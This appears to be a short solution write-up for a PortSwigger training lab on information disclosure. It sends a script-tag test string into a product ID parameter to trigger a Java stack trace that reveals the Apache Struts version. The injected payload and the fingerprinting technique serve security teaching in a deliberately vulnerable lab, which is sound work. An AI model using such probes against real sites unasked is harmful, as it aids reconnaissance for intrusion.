 # [Lab: Information disclosure in error messages](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-in-error-messages)

This lab's verbose error messages reveal that it is using a vulnerable version of a third-party framework. To solve the lab, obtain and submit the version number of this framework.

---
## Solution

- payload: `<script>alert(12)</script>`
- `URL/product?productId=%3Cscript%3Ealert(12)%3C/script%3E`
- version `2 2.3.31`

```java
Internal Server Error: java.lang.NumberFormatException: For input string: "<script>alert(12)</script>"
	at java.base/java.lang.NumberFormatException.forInputString(NumberFormatException.java:67)
	at java.base/java.lang.Integer.parseInt(Integer.java:668)
	at java.base/java.lang.Integer.parseInt(Integer.java:786)
	at lab.y.o.c.u.M(Unknown Source)
	at lab.k.n2.w.e.R(Unknown Source)
	at lab.k.n2.s.p.b.u(Unknown Source)
	at lab.k.n2.s.k.lambda$handleSubRequest$0(Unknown Source)
	at c.r.i.e.lambda$null$3(Unknown Source)
	at c.r.i.e.b(Unknown Source)
	at c.r.i.e.lambda$uncheckedFunction$4(Unknown Source)
	at java.base/java.util.Optional.map(Optional.java:260)
	at lab.k.n2.s.k.I(Unknown Source)
	at lab.server.d.o.w.B(Unknown Source)
	at lab.k.n2.t.W(Unknown Source)
	at lab.k.n2.t.B(Unknown Source)
	at lab.server.d.o.k.g.a(Unknown Source)
	at lab.server.d.o.k.p.lambda$handle$0(Unknown Source)
	at lab.y.q.w.a.R(Unknown Source)
	at lab.server.d.o.k.p.c(Unknown Source)
	at lab.server.d.o.y.g(Unknown Source)
	at c.r.i.e.lambda$null$3(Unknown Source)
	at c.r.i.e.b(Unknown Source)
	at c.r.i.e.lambda$uncheckedFunction$4(Unknown Source)
	at lab.server.f5.u(Unknown Source)
	at lab.server.d.o.y.i(Unknown Source)
	at lab.server.d.v.c.v(Unknown Source)
	at lab.server.d.g.X(Unknown Source)
	at lab.server.d.i.X(Unknown Source)
	at lab.server.fd.N(Unknown Source)
	at lab.server.fd.s(Unknown Source)
	at lab.o.z.lambda$consume$0(Unknown Source)
	at java.base/java.util.concurrent.ThreadPoolExecutor.runWorker(ThreadPoolExecutor.java:1136)
	at java.base/java.util.concurrent.ThreadPoolExecutor$Worker.run(ThreadPoolExecutor.java:635)
	at java.base/java.lang.Thread.run(Thread.java:833)

Apache Struts 2 2.3.31
```